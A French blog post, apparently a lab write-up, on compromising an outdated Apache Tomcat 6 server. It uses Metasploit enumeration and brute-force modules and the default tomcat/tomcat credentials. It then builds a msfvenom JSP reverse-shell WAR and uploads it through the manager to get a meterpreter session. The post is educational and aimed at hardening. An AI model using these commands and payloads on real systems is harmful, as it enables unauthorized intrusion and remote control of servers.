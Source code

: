 ```yaml
---
layout: post
title:  "Test d'intrusion sur un serveur Apache Tomcat"
date:   2021-10-19
last-update: 
categories: linux securite
tags: shell ssh linux tomcat
image: /assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG 
description: cet article présente un test d'intrusion sur une ancien version d'un serveur apache tomcat afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




>Ce write-up présente les possibles vulnérabilités d'un serveur Apache tomcat 6.18 (ancienne version) afin de sensibiliser l'utilisateur à certaines bonnes pratiques lors la configuration d'un serveur apache tomcat, notamment :
>
>-Tenir à jour sa version tomcat
>
>-Utiliser des mots de passes forts
>
>Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.
>



## Introduction

Lors d'un laboratoire, après avoir avoir scanné le réseau avec nmap, j'ai pu voir qu'un serveur tomcat tournait sur le port 8080 à l'adresse <IP>.

![tomcat-scan]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-scan.PNG)



 En accédant depuis le navigateur, j'accédais à la page d'accueil du serveur. En rouge, deux adresses url intéressantes car elles permettent d'accéder à l'interface d'administration du serveur.

![tomcat-index]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-index.PNG)

## Tentative

Avant de trouver la bonne solution, quelques tentatives ont été réalisées avec metasploit

### tomcat_enum

Ce module énumère les noms d'utilisateurs apache en envoyant des requête malformées au j_security_check.

Version vulnérable : 4.1.0 - 4.1.39, 5.5.0 - 5.5.27, and 6.0.0 - 6.0.18

Les nouvelles versions de Tomcat ne sont pas vulnérable

```
use auxiliary/scanner/http/tomcat_enum
set RHOST <target IP:PORT> 
run
```

Source : 

- [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/)
- [https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)



#### Résultat 

L'attaque n'a pas fonctionnée dans mon cas

### dir_scanner

Le scanner de répertoire permet de scanner un serveur web afin de trouver des répertoires intéressants. 

```
use auxiliary/scanner/http/dir_scanner
SET RHOST <target IP>
set RPOT <traget PORT>
run
```

Source :

[www.offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

#### Résultat 

L'exploit n'a pas trouvé de répertoires sensibles.

### Brute-force login

Le module tomcat_mgr_login permet de brute-forcer la page de login du manager :

Source :

-  [www.rapid7.com - http/tomcat_mgr_login/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)

***

## Solution



Sur la page http, on peut voir un lien url vers la page manager demandant un mot de passe et un nom d'utilisateur.

### "Brute-force" manuel du login

Sur ce github, on peut trouver tout une liste de mot de passe habituel/par défaut : [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

En cherchant également sur internet, je suis tombé sur plusieurs articles qui utilisaient la pair tomcat /tomcat comme nom d'utilisateur / mot de passe.

En essayant sur la page => bingo.

On arrive ainsi sur la page manager

![tomcat-manager]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG)



### shell - Upload war

Une fois sur la page de manager, on peut tenter d'obtenir un reverse shell un uploadant un fichier war.

#### Tentative ratée

Ayant mal configuré mon metasploit,t j'ai crû que les modules  metasploit ne fonctionnaient pas. J'obtenais l'erreur suivante : 

> Handler failed to bind <ip>

 J'ai donc tenté de "crafté" moi-même mon war en passant par `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o rshell3.war
```

Puis après avoir cliqué sur le fichier uploadé dans le manager, j'ai lancé avec metasploit et netcat des serveurs pour "écouter"

- metasploit

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Documentation officielle : [offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

- netcat

```bash
nc -lvp 1234
```

J'ai probablement mal configuré mes attaques car celles-ci ne fonctionnaient pas



#### Source 

Cet article explique comment créer son propre payload avec MSFVenom

[vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

#### Tentative réussie

J'ai retenté avec metasploit où j'ai découvert que je n'avais pas configuré mon LHOST et c'était alors mon IP habituel au lieu de celle du VPN qui était prise. C'est pour cela que j'avais l'erreur 

> Handler failed to bind <ip>

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target IP>
set RPORT 8080
set LHOST <IP>
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```

Il suffit ensuite d'attendre quelques instants pour obtenir une session meterpreter et le tour est joué :)

![tomcat-meterpreter]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-meterpreter.png)

Sur le manager, on peut constater qu'un fichier a été uploadé

![manager-file-upload]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/manager-file-upload.png)



Source : 

[rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)



## Sources 

- [https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)
- Plusieurs attaques sur tomcat : [book.hacktricks.xyz - tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)
- Documentation officielle metasploit : [rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)
